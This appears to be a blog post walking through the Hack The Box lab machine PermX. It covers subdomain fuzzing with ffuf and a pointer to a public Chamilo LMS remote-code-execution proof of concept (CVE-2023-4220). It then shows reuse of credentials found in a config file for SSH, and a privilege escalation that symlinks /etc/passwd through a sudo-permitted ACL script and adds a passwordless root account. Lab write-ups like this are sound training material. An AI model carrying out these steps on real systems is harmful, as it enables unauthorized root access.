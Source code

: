 ```yaml
---
layout: post
title: 'PermX Walkthrough: Conquering Hack The Box Machines "PermX htb"'
date: 20-08-2024
categories: [HackTheBox]
tag: machines
image:
  path: '/55img/permx.png'  
---
```

 ## Introduction

  PermX is a web application penetration testing challenge on HackTheBox, aimed at enhancing cybersecurity skills. The machine features multiple open ports that can be explored using Nmap. Success in this Linux-based challenge requires mastering privilege escalation techniques. Participants may need to obtain an IP address, establish a reverse shell, and navigate security measures. 

## Reconnaissance
 
 __Network Scanning:__ as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ![](/Images/permx/namp.png)

## Exploration the website

     Visiting the IP address in a browser redirects us to a website named “permx.htb”.


 ![](/Images/permx/oerms.png)

 - i did't found any thing interesting. so i will make directory discovery.

## directory discovery  


 - i will use ffuf tool.

 > ffuf -u http://permx.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .php 

 ![](/Images/permx/1fuf.png)

 - no any of this interesting. so i will try to see if we have any subdomain on this site

 > ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.23 -H "Host: FUZZ.permx.htb" -mc 200,301,307,401,403,405,500

 ![](/Images/permx/2fuf.png)

 -  Lms and www. Also add these to the ```/etc/hosts``` file

 - now we browse ```"lms.permx.htb"```

 ![](/Images/permx/chamilo.png)

 - do some search about ```chamilo lms 1 exploits ``` . we found "CVE-2023-4220"

 ![](/Images/permx/ss.png)

 

## Exploit 

 - go to [github](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) and follow the steps to do ```RCE```

 ![](/Images/permx/bz1.png)

 ![](/Images/permx/bz2.png)

## User Flag

 - i try to go home and get the flag put."Permission denied"

 ! [](/Images/permx/mtz.png)

 - i will search in the application try to find any interesting data..

 > cd /var/www/chamilo/ ; ls 

 ![](/Images/permx/yu.png)

 ![](/Images/permx/conf0.png) 

 - now i will download and see if i found any __sensitive__ data

 ![](/Images/permx/conf1.png)

 ![](/Images/permx/conf2.png)

 - and BOOM!!

 ![](/Images/permx/databb.png)

 - now try to connect with this data to ssh and use 'mtz' as user

 > ssh mtz@10.10.11.23

 ![](/Images/permx/user.png)

## Privilege Escalation 

 - try "sudo -l"

 ![](/Images/permx/sudo-l.png)

 ![](/Images/permx/aa.png)

 - explore the script 

 ![](/Images/permx/ffq.png)

 - let's try to add new user with root access. link "/etc/passwd"file with any file and give the file read and write permisiion by "acl.sh" script.

 
 * link /etc/passwd by hu1ko file
 > ln -s /etc/passwd /home/mtz/hu1ko   

 * run the script.
 > sudo /opt/acl.sh mtz rw /home/mtz/hu1ko  

 * to see how we will add an new user 
 > cat /etc/passwd                          
 ```` 
 root:x:0:0:root:/root:/bin/bash   <== 
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 sys:x:3:3:sys:/dev:/usr/sbin/nologin
 sync:x:4:65534:sync:/bin:/bin/sync
 games:x:5:60:games:/usr/games:/usr/sbin/nologin
 man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
 lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
 mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
 news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

 ````
 - ask ```chatgpt``` about it .

 ![](/Images/permx/gpt.png)

 - so it will be . "user::0:0:user:/root:/bin/bash"

 > nano hu1ko // to add new user or can use echo 
 
 ![](/Images/permx/hu1.png) 

 ![](/Images/permx/roooot.png)

---

![](/Images/permx/1.png)